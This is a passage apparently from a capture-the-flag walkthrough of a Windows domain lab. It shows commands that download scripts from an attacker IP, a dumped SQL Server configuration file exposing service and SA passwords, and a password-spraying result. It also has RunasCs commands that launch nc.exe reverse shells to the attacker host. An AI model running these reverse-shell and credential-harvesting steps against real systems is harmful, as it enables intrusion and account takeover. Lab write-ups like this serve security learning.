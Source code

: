 ```
iwr -uri http://10.10.14.99/runascs.ps1 -outfile runas.ps1

Invoke-Rexder -CollectionMethods All

iwr -uri http://10.10.14.99/rexview.ps1 -outfile rexview.ps1
```
## Internal
### Enumeration
![](https://i.imgur.com/EZq8BcJ.png)
```shell
PS C:\Users\sql_svc\Downloads\SQLEXPR-2019_x64_ENU> cat sql-Configuration.INI
cat sql-Configuration.INI
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False"
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="FREELANCER\sql_svc"
SQLSVCPASSWORD="IL0v3ErenY3ager"
SQLSYSADMINACCOUNTS="FREELANCER\Administrator"
SECURITYMODE="SQL"
SAPWD="t3mp0r@ryS@PWD"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
```
- I did password Spraying and i got `mikasaAckerman : IL0v3ErenY3ager`
```shell
Invoke-RunasCs -Username mikasaAckerman -Password 'IL0v3ErenY3ager' -Command 'c:\users\public\nc.exe 10.10.14.99 8020 -e powershell.exe'


Invoke-RunasCs -Username lorra199 -Password 'v3ryS0l!dP@sswd#29' -Command 'c:\users\public\nc.exe 10.10.14.99 8021 -e powershell.exe'

```
![](https://i.imgur.com/EcJ9fJO.png)
![](https://i.imgur.com/cfMIt5X.png)
```
Hello Mikasa,
I tried once again to work with Liza Kazanoff after seeking her help to troubleshoot the BSOD issue on the "DATACENTER-2019" computer. As you know, the problem started occurring after we installed the new update of SQL Server 2019.
```